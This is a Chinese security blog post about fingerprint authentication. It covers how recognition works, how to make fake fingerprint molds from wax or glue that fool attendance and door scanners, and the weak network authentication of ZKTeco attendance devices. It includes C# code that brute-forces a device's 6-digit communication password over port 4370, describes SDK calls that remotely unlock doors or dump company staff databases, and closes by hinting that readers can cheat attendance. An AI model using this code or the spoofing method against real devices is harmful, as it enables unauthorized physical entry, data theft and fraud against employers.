# 生物特征识别之指纹识别，伪造，指纹设备缺陷设计

2014/06/03 12:43 | [海南鸡饭](http://drops.wooyun.org/author/海南鸡饭 "由 海南鸡饭 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

传统安全技术把用户生物信息作为信任对象进行可信计算来当作认证因子，包括对用户进行生物信息模式识别，对目标的生物模式进行密码学计算，对目标进行融合验证计算等。生物信息特征种类繁多，现阶段包括：指纹,人脸,语音等等，间接生物识别包括 DNA 图谱识别，涉及化验技术才能进行，我们不是法医，这里不做涉及讲解。

## 0x01 为何要讲解指纹识别？

* * *

现代计算机及网络识别基础上的指纹应用还是比较广泛的（从数量上说用指纹识别的比其它一些生物特征识别技术要多，配置指纹识别的单位安全级别不及虹膜识别高），涉及的问题也开始层出不穷，如果未来手机上学苹果一样普及这项技术，移动终端 APP 收集指纹到服务器可能会有安全问题出现。

## 0x02 传统指纹识别技术要点

* * *

指纹学的历史可以追述到几百年前，1892 年，英国学者高尔顿的《指纹学》（1892），提出了三个影响重大的科学论点：1.指纹终生不变；2.指纹可识别；3.指纹可分类。



亨利氏指纹分类法依照指纹形状将指纹分成斗形纹、箕形纹和弧形纹三大类。

斗形纹又可细分为斗形纹、双箕形纹、囊形纹和杂形纹；

箕形纹可再分为正箕形纹和反箕纹形；

弧形纹也有弧形纹和帐形纹。

美国联邦调查局所管理的指纹数据库名为 IAFIS，内容包括 4700 万组指纹，使用的分类法为八大类型分析法：纹型线;内端及三角;箕形纹内端;箕形纹外端;斗形纹内端;斗形纹外端;追迹线;指纹类型

这里现有的《visual c++指纹模式识别系统算法及实现》为我们做了很好的技术方面的参考。

## 0x03 指纹识别一般步骤

* * *

（1）图像预处理

去躁.滤波等原始图像真实化处理，然后按纹理进行增强处理，然后数字化指纹图像进行细化处理.

（2）指纹特征数字化

数字化指纹端点和纹线分叉点(取指纹纹理上类似线段特征).



（3）特征匹配测量

将指纹端点和叉点集合采集的特征模板与现存的样板进行拓扑结构匹配测量.



## 0x04 技术的大致实现原理

* * *

这里认证技术包括图像处理，特征提取，匹配算法，特征提取又包括 Poincare 值计算。没有下列图说得这么简单，而且现在设备基本不存图像，而是根据指纹算 Key 再存储。文章太多写不完，这里标个记，到时候在另起文章写，算法也是可以另写一篇的。





步骤包括

```
1.指纹先被扫描（光学等） 
2.指纹被分析特征点被提取（端点，叉点，中心点及奇异点） 
3.指纹特征作为模板存储到指纹数据库 
```

## 0x05 指纹采集自动化生成工作指纹生成器 FPGenerator 建立指纹库

* * *

有时候做系统测试需要一批指纹样例,一个个采集指纹是很麻烦的事情,这里我们可以直接使用中国科学院自动化研究所的 FPGenerator 来自动生成我们需要的一些指纹来做指纹数据库样例的工作.

轮廓：

Fingerprint mask generation 上的“Left”，“Right”，“Top”，“Bottom”操作指纹图像左，右，上，下的轮廓。



背景修改：

“none”，“Optical（光学）”，“Scrapping（刮擦）”。


中间过程总共有 10 步，大家只要遇到需要进行指纹系统试验的情况，可以用它生成采集图像，里面包括了干燥，图像加噪点等功能。

## 0x06 土办法实现指模提取及复制

* * *

有时候没有自动化生成软件情况下,我们需要对方指纹模型或者自己的指纹模型,或者根据窃取来的指纹做一个伪造产品(在犯罪现场留下一个伪造他人的指纹并不是做不到),或者盗窃别人的生物特征指纹,这个不像传统的密码被盗就可以随时修改,被盗走就追不回来了,所以写这篇文章目的在于强调指纹认证系统的数据库安全，当然其它生物特征作为双因子认证的系统同样要注意。

1.实际上提取指纹的材料非常多,做指模的材料可以使用蜡烛,氰基丙烯酸盐粘合剂,胶带纸等。比方下列我可以直接搞到手的东西。


2.关于指模的制作，可以直接选用滴蜡的方式制作指模，比较方便，便于就地随手取材，貌似市面上卖的制作指模的就是这么个办法。当然还有用塑胶产品做还有用橡皮泥做，更多的有取指纹的专业胶带做。


3.成品指模大致上就是下图本大爷指纹的样子，可以过一般的考勤机及光学门禁系统。



## 0x07 WHY I HACKED TOUCHID Marc Rogers 演讲用的 PPT 中比较有意思的地方

* * *

早在 2013 年的 syscan 上 Marc Rogers 就演示过指模绕过苹果 iphone 的指纹认证，其中 PPT 的”How Fingerprint Scanners FAIL”部分提到过几点注意的地方

```
1.指纹扫描仪信任我们在任何物体上触碰留下的证明痕迹 
2.如果你能获得并复制指纹特征，你就能实现重放攻击 
3.小熊软糖能够在很多系统上实现指纹功能，当然纯明胶效果更好（隆胸等材料） 
4.明胶是一种从动物皮肤上提取做成的蛋白质，所以与人体皮肤非常相似 
5.明胶被用于指纹重放攻击上并不意外 
6.最新的系统也会把这种仿真指纹识别为真指纹 
```


2002 年论文 Impact of Artificial "Gummy" Fingers on Fingerprint Systems 也有提到过几种材料(活体，硅胶，明胶)的对比问题，它们之间纹理差别并不是很大，类似于人体活体指纹一样，能够轻易骗过辨识度不是很高的指纹认证产品。



PPT 中详细介绍了指纹提取流程，涉及数码照相，阈值色阶调整，打印，方便用来做指模。如下图所示：







PPT 最后的部分“But, What does this mean?”中提到了几个有趣的观点

```
1.指纹认证并不是最高级别的安全措施,，但是指纹认证是一种方便的安全措施，所以我们常用在考勤,门禁,及手机能产品上 
2.街上的贼并不会指纹克隆技术去解锁偷来的 iphone 手机，他们会重刷系统然后卖掉 
3.单独来说，指纹认证不该被用于保护你的银行账户，护照或被偷的机密文档。(其实现在国内基本用于双因子认证补充) 
4.门禁及一些老设备识别活体指纹还是有点难度，所以还需要加上一些温感等监测方法，当然用温水加热也许能绕过。 
```

## 0x08 指纹考勤系统软件设计缺陷，一些好玩的东西

* * *

只要能搞定指纹考勤机（其余类型考勤机也同样）,在很大情况下能搞定一家公司的所有人员信息,下面我说一下在研究指纹设备时发现的认证缺陷问题。

这里在软件选型上我找到了规模比较大的中控生物旗下的考勤产品下载，其中有下载量比较大的 ZKTime 系列的免费版。


介绍里说明几乎支持所有类型的指纹考勤机，指纹门禁及所有同品牌类型的指纹产品类型，如果算连接网络的设备全中国估计会有 6 位数以上的设备终端。

网站上有一篇“户外物理设备入侵之：入侵并“调教”中控指纹语音考勤系统(打卡机)”,作者只是写了个大概,并没有对程序进行过分析,有些概念是错误的,反正正好我也在研究，重新写一些东西纠正一下好了。

关于此类设备的认证方面网上都有资料可循，不过有些人说是明文，三次握手部分看不到有此类的数据包，所以应该是加密算法做哈希，尤其说过此密码估计要设备终端和 PC 终端相同才行。（设备默认开启 4370 端口，6 位数字组合为暴力枚举必破）




所以这里设备爆破手法 1.搞清密码处理流程用数据包骗过去。2,直接扣二次开发 SDK 或者找开发资料把函数扣出来。

索性 SDK 做得简单易懂，我看一天左右就可以上手编写破解密码的程序部分了。



指纹考勤联机部分的流程 SDK 文档如下：



远程网络认证部分关键函数有两个：

1.Connect_Net

VARIANT_BOOL Connect_Net( [in] BSTR IPAdd, [in] long Portl)

布尔类型的函数

IPAdd,(远程设备 IP 地址)和 Port(设备认证端口)

2.SetCommPassword

VARIANT_BOOL SetCommPassword( [in] long CommKey)

CommKey 为密码（小声说一句，可能是为了兼容或者开发方便，认证方式实在很弱）。

整个连接过程不过很短的几句代码，加个循环就能成为破解密码程序:

```
private void CrackerConnect() {
    zkemkeeper.CZKEMClass axCZKEM1 = new zkemkeeper.CZKEMClass();
    int ifcommnetpass = 0;
    for (j = 0; j < 24; j++) {
        key = comkeys[j];
        pwd = axCZKEM1.SetCommPassword(key);
        if (pwd == true) {
            bIsConnected = axCZKEM1.Connect_Net(txtIP.Text, Convert.ToInt32(txtPort.Text));
            if (bIsConnected == true) {
                btnConnect.BeginInvoke(new System.EventHandler(SetbtnConnectTextSec));
                lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSec), comkeystr[j]);
                iMachineNumber = 1;//In fact,when you are using the tcp/ip communication,this parameter will be ignored,that is any integer will all right.Here we use 1\. 
                axCZKEM1.RegEvent(iMachineNumber, 65535);//Here you can register the realtime events that you want to be triggered(the parameters 65535 means registering all) 
                ifcommnetpass = 1;
                break;
            } else {
                lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSecfail), comkeystr[j]);
            }
        }
    }
    if (ifcommnetpass == 0) {
        for (j = 0; j < 1000000; j++) {
            key = keys[j];
            pwd = axCZKEM1.SetCommPassword(key);
            if (pwd == true) {
                bIsConnected = axCZKEM1.Connect_Net(txtIP.Text, Convert.ToInt32(txtPort.Text));
                if (bIsConnected == true) {
                    btnConnect.BeginInvoke(new System.EventHandler(SetbtnConnectTextSec));
                    lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSec), keystr[j]);//
                    iMachineNumber = 1;//In fact,when you are using the tcp/ip communication,this parameter will be ignored,that is any integer will all right.Here we use 1\. //
                    axCZKEM1.RegEvent(iMachineNumber, 65535);//Here you can register the realtime events that you want to be triggered(the parameters 65535 means registering all) 
                    break; 
                } else {
                    lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSecfail), keystr[j]);
                }
            }
        }
    }
    Cursor = Cursors.Default;
}

```

注意先注册 SDK 里提供的控件再调用里面的接口函数：



按照 SDK 开发的专门入侵的程序可以做到远程开关设备和远程清密码，还有开门禁等等。

比方说开门禁的

ACUnlock

【函数定义】

VARIANT_BOOL ACUnlock([in] long dwMachineNumber, [in] long Delay)

【功能】

开门，使开门控制器输出开门电平，并延迟（Delay/10）秒后关门

【参数】

dwMachineNumber

机器号

Delay

开门延迟时间

【返回值】

成功返回 True，否则返回 False



还有很多功能，比如鸣叫报警，自动开门,下载整个公司数据库，照片指纹等，甚至可以像游戏 Watch dog 里一样手机开门，手机关门禁和考勤设备，其实考勤及门禁设备也很重要。

大家节后上班考勤难免会有问题，有缘人看这篇文章应该知道咋做了。

附录：

参考资料：

《可信云安全管家技术实现》

《WHY I HACKED TOUCHID》Marc Rogers

《TFT 系列脱机通讯开发包开发手册》

版权声明：未经授权禁止转载 [海南鸡饭](http://drops.wooyun.org/author/海南鸡饭 "由 海南鸡饭 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [深入了解 SQL 注入绕过 waf 和过滤机制](http://drops.wooyun.org/tips/968)
*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [【.NET 小科普之一】数据库信息在哪儿](http://drops.wooyun.org/tips/975)
*   [上传文件的陷阱](http://drops.wooyun.org/tips/2031)
*   [Nginx 安全配置研究](http://drops.wooyun.org/tips/1323)